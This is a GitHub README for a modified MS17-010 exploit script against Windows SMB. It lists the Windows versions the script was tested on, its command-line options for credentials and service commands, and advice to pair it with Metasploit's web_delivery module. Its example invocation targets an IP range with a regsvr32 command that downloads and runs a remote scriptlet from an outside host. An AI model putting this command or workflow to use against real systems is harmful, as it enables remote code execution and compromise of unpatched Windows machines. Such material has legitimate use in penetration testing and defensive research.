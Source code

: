 # MS17-010 zzz_exploit.py modifications
All credit goes to Worawit: https://github.com/worawit/MS17-010/

This is my personal enhancement to zzz_exploit.py. Added functionality to dynamically pass users, passwords and commands to execute within a service.

This is also heavily inspired by Korey McKinley: https://lmgsecurity.com/manually-exploiting-ms17-010/

Full credit goes to Worawit/Sleepya and Korey McKinley!

Best usage, and what I tested it with, is using the web_delivery module in metasploit. With the generated command, pass it into -c in quotes. This is also what Korey showed in his article!

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)
ip_parser.py is just a script for parsing different IP/network formats. (192.168.0.0/24, 192.168.0.0-150, etc)

## Help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1-100 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
My write-up: https://mez0.cc/posts/weaponised-worawit.html
